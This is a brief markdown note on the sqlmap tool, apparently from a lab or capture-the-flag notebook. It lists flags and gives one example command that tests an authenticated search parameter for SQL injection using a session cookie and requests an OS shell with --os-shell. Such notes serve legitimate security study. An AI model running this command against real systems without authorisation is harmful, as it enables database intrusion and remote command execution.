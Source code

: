 # Sqlmap

Is used to check php route parameter for sql vulnerabilities.

<ul>
<li>-u url to the website</li>
<li>--data dummy data to specify the route paramter that should be tested</li>
<li>--cookie a cookie to check websites that require authentication</li>
<li>--os-shell to check for vulnerabilities that provide a shell</li>
</ul>


## Example

We have the following URL: `http://10.129.126.145/dashboard.php?search=test`. The website requires authenthication. We want to check if the `search` parameter is vulnerable to sql injection.

Syntax:
```bash
sqlmap --os-shell -u http://10.129.126.145/dashboard.php --data "search=blah" --cookie="PHPSESSID=a9rsdu13tva4e172rn4jj6dlqf"
```

## Resources
https://abrictosecurity.com/sqlmap-cheatsheet-and-examples/
